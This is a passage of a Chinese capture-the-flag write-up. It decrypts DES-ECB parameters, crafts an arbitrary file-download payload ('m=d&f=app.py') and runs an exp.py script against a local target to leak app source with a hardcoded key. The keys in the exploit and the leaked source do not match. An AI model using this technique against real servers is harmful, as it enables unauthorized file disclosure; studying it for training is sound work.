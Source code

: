 ```py
    plaintext=DES_fun.decrypt(cipher.decode('hex'))
    plainData.append(plaintext)

for plain in plainData:
    print plain
```
在结果中发现一条与众不同的明文:
```
m=d&f=uploads%2F70c97cc1-079f-4d01-8798-f36925ec
```
找到其对应的密文，点近其所对应的链接发现是下载功能。
那么构造payload:
```
m=d&f=app.py
```
加密后访问链接得到app.py内容.
exp.py:
```py
from Crypto.Cipher import DES
import requests
def get_cipher(plain):
    key='ldgonaro'
    DES_fun=DES.new(key,DES.MODE_ECB)
    length=DES.block_size-len(plain)%DES.block_size
    plain+=chr(length)*length
    cipher=DES_fun.encrypt(plain).encode('hex')
    return cipher

url='http://127.0.0.1:8000/?s='+get_cipher('m=d&f=app.py')

r=requests.get(url)
print r.text
```
得到app.py:
```py
# coding: UTF-8
import os
import web
import urllib
import urlparse
from Crypto.Cipher import DES

web.config.debug = False
ENCRPYTION_KEY = 'megnnaro'


urls = (
    '/', 'index'
)
app = web.application(urls, globals())
db = web.database(dbn='sqlite', db='db.db')


def encrypt(s):
    length = DES.block_size - (len(s) % DES.block_size)
    s = s + chr(length)*length

    cipher = DES.new(ENCRPYTION_KEY, DES.MODE_ECB)
    return cipher.encrypt(s).encode('hex')

def decrypt(s):
    try:
        data = s.decode('hex')
        cipher = DES.new(ENCRPYTION_KEY, DES.MODE_ECB)
```